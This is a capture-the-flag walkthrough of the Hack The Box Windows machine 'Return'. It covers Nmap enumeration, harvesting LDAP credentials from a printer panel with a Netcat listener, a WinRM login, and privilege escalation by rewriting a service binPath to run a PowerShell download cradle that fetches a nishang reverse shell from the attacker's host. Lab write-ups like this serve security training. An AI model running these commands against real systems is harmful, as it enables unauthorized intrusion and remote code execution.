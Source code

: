 ```yaml
---
layout: post
title: Return
date: 2025-06-22 00:34:00 +0800
categories: [HackTheBox, Easy]
tags: [Windows, WinRM, LDAP Injection, Credential Harvesting, Printer Exploitation, Privilege Escalation, Enumeration, Foothold]
author: klein
image:
  path: /images/images-return/image_06.png
  
---
```


As always let's start with an Nmap scan. 
```bash
nmap -sC -sV -vv -oN return 10.129.176.124
```
```bash
# Nmap 7.95 scan initiated Wed Jul  9 14:41:34 2025 as: /usr/lib/nmap/nmap -sC -sV -vv -oN return 10.129.176.124
Nmap scan report for 10.129.176.124
Host is up, received echo-reply ttl 127 (0.045s latency).
Scanned at 2025-07-09 14:41:34 EDT for 20s
Not shown: 987 closed tcp ports (reset)
PORT     STATE SERVICE       REASON          VERSION
53/tcp   open  domain        syn-ack ttl 127 Simple DNS Plus
80/tcp   open  http          syn-ack ttl 127 Microsoft IIS httpd 10.0
|_http-title: HTB Printer Admin Panel
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
88/tcp   open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2025-07-09 19:00:16Z)
135/tcp  open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp  open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds? syn-ack ttl 127
464/tcp  open  kpasswd5?     syn-ack ttl 127
593/tcp  open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped    syn-ack ttl 127
3268/tcp open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped    syn-ack ttl 127
5985/tcp open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: Host: PRINTER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-07-09T19:00:20
|_  start_date: N/A
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 63830/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 10110/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 54335/udp): CLEAN (Timeout)
|   Check 4 (port 32565/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
|_clock-skew: 18m34s

Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jul  9 14:41:54 2025 -- 1 IP address (1 host up) scanned in 20.36 seconds
```

Based on the ports, this is going to be a Domain Controller.

By going to port 80 (HTTP), we found a portal for a printer. By clicking around we will stumble upon the 'settings' category, which is going to contain credentials.


![b](/images/images-return/image_01.png)


Because this is port 389 (ldap) the communication is in clear text, which means that by starting a Netcat listener and intercepting a connection request, we can get access to the password part.

Let's start the listener.
```bash
nc -nvlp 389
```
Also, update the Server Address to the IP of our machine. By clicking update, it will reveal the password.

![b](/images/images-return/image_02.png)

With the newly found credentials, we can do a pass-the-password attack on the machine and find out where this path leads us.

```bash
nxc winrm 10.129.176.124 -u svc-printer -p '1edFg43012 !! '
```

![b](/images/images-return/image_03.png)

Now we can run evil-winrm against this IP and use the credentials that we have found previously.

```bash
evil-winrm -i 10.129.176.124 -u svc-printer -p '1edFg43012!!' 
```

Now we have a shell. We have to do privesc.
Let's look at our user.
```bash
net user svc-printer
```

![b](/images/images-return/image_04.png)

The local group memberships are definitely the way to go, it does not seem like the usual type of permissions.

By doing a quick Google search I found a way to exploit this. I started a Python web server with a nishang reverse shell. (https://raw.githubusercontent.com/samratashok/nishang/refs/heads/master/Shells/Invoke-PowerShellTcp.ps1)

*At the end I added this command to make the connection happen:
```bash
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.245 -Port 4444
```
Started a reverse shell on port 4444:
```bash
nc -nvlp 4444
```
Then in the evil-winrm session, I ran the following commands:

```bash
sc.exe config vss binPath="C:\Windows\System32\cmd.exe /c powershell/exe -c iex(new-object net.webclient).downloadstring('http://10.10.14.245:8080/shell.ps1')"
```
Then:
```bash
sc.exe stop vss


sc.exe start vss
```
And I got a reverse shell.

![b](/images/images-return/image_05.png)

And also here is another great way to pull this off.
https://www.hackingarticles.in/windows-privilege-escalation-server-operator-group/